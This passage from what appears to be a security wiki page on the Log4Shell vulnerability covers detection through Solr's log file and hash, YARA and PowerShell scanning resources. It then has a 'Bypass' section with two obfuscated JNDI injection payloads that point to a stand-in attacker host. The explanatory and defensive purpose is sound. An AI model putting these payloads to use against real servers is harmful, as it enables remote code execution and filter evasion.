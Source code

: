 ## Detection

One way to detect this vulnerability is by checking the log file we know that is affected by the Log4j vulnerability, the **solr.log** file

![](<../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Resources

* [https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes) (local, based off hashes of log4j JAR files)
* [https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d) (local, based off hashes of log4j CLASS files)
* [https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228) (listing of vulnerable JAR and CLASS hashes)
* [https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1](https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1) (local, hunting for vulnerable log4j packages in PowerShell)
* [https://github.com/darkarnium/CVE-2021-44228](https://github.com/darkarnium/CVE-2021-44228) (local, YARA rules)
* [https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j\_0day\_being\_exploited\_mega\_thread\_overview/](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j\_0day\_being\_exploited\_mega\_thread\_overview/)

## Bypass

The JNDI payload that we have showcased is the standard and "typical" syntax for performing this attack.

Because this attack leverages **`log4j`**, the payload can ultimately access all of the same expansion, substitution, and templating tricks that the package makes available. This means that a threat actor could use any sort of tricks to hide, mask, or obfuscate the payload.

With that in mind, there are honestly an unlimited number of bypasses to sneak in this syntax. \\

There are numerous resources online that showcase some examples of these bypasses, with a few offered below:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
```

```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
```
